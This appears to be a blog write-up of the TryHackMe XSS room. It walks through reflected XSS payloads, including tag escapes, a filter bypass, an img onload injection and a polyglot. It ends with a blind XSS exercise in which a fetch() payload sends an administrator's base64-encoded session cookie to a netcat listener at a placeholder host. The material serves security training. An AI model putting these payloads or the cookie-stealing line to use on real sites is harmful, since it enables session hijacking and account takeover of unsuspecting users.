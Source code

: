 ```yaml
---
layout: single
title: "THM Exploits #3 Cross-Site Scripting"
---
```


#### TryHackMe Room: Jr Penetration Tester path: Web Application Hacking: XSS (Cross-Site Scripting) 

### Perfecting your payload

#### Level 1: Payload in input form 

In the first exercise, we see an input form that prompts to enter our name. Doing that, we get an error message, 'XSS Payload Failed'.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.40.37.png)


We can put in 
`<script>ale4rt('THM');</script>`
in the form: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.25.png)

Which will give us this pop-up.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.42.png)


Checking the page source, we can see the JavaScript code was successfully injected.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.46.35.png)

---
#### Level 2: Escaping input tag

This time, the form looks a bit different. Once inputting the name, it is reflected in the input tag. 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.47.20.png)

This can be confirmed by checking the page source.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.48.20.png)

The previous JS payload won't work in the input tag. Instead, we can use the following: 

```Javascript
">script>alert('THM');</script>
```

The `">` at the front will close the value parameter and then close the input tag. Closing the input tag will allow the payload to run.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.50.20.png)

The payload runs and we get the alert. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.51.46.png)

---
#### Level 3: Payload in textarea tag

At this stage, the name is reflected in the textarea tag. Again, this can be confirmed by viewing the page source.
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.23.png)

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.06.png)


We'll have to escape the textarea tag a little differently from level 2 by using the following payload: 

```Javascript
</textarea><script>alert('THM');</script>`. 
```

The `</textarea>` portion of the payload causes the textarea element to close so the script will run.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.55.40.png)

Success!

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.56.21.png)

Check the page source to confim the changes.

#### Level 4: Escaping JS code

At this stage, the interface looks similar to level 1 but the page source reveals that the name is reflected in some JavaScript code. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.58.14.png)

You'll have to escape the existing JavaScript command with the following payload: 
```Javascript
';alert('THM');//
```

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

We get the alert, and the page source reveals our payload has been executed. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.01.10.png)

---

#### Level 5: Escaping string filters

Level 5 looks similar to level 2 on the surface. However, executing `<script>alert('THM');</script>` doesn't work. Let's look at the page source to figure out why.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.04.04.png)

The word 'script' has disappeared due to filters. Alternatively, we can use the following payload to escape these filters: 

```JavaScript
<sscriptcript>alert('THM');</sscriptcript>
```

The word 'script' squeezed into the middle will be filtered out once, leaving the first 's' and the following 'script' to form and execute the payload. 

The resulting page source shows it worked: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.06.25.png)

---

#### Level 6: Escaping IMG tag
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.07.24.png)

Level 6 seems similar to level 2, where we had to escape from the value attribute of an input tag, so we can try `"><script>alert('THM');</script>` .
But that doesn't seem to work. Let's inspect the page source to see why. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.10.27.png)

You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the ==**onload event**==. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

```JavaScript
/images/cat.jpg" onload="alert('THM')
```

And then viewing the page source, and you'll see how this will work.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.13.53.png)
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.14.10.png)


#### XSS Polyglots

**Polyglots:**
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```




---

#### All payloads from exercises

Original payload
<script>alert('THM');</script>

Escaping input tag
"><script>alert('THM');</script>

Escaping textarea tag
</textarea><script>alert('THM');</script> 

Escaping JS code
';alert('THM');//

Escaping filters
<sscriptcript>alert('THM');</sscriptcript>

Escaping img tag & using onload event
/images/cat.jpg" onload="alert('THM');

---
### Practical Example (Blind XSS) 

In this exercise, we are tasked to inject JavaScript code into the contents of an IT Support ticket. Once the administrator opens the ticket to view it, the code will execute and send their cookie session info back to us, revealing login information and allowing us to escalate privileges.

**1. Test stage**
	So we've made a (fake) customer account on the Acme IT Support website. Under the 'Support Tickets' tab, we can create tickets. Here is a test run: 
 ![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.47.png)
 Because our input is shown in the textarea, let's see if we can escape this like we did in level 3 of 'Perfecting Your Payload'. We can use the payload `</textarea>test`. </textarea> wil help us escape the textarea tag. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.30.png)

It worked. 
Now let's try this again to prompt an alert message. The payload is `</textarea><script>alert('THM');</script>.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.17.png)


**2. The Attack** 

Now, let's try to steal the administrator's session cookies by injecting JavaScript code.
First, we're going to set up a callback. Let's open a Netcat server listening on port 9001 to receive the cookies. 

If we want to listen on port 8000, issue the command`nc -l -p 9001`.
- `-l`  indicates that we want to use Netcat in listen mode
- `-p`  is used to specify the port number.
- `-n` to avoid the resolution of hostnames via DNS,
- moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended.
- The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.53.png)![]

Now, let's inject our payload into the ticket. The payload we'll use is: 

```Javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.


![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2016.00.31.png)


Once submitted, the listening server will put out the stolen cookies. Shown below is that output and the base64 decoding of the cookie using the echo command.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.58.21.png)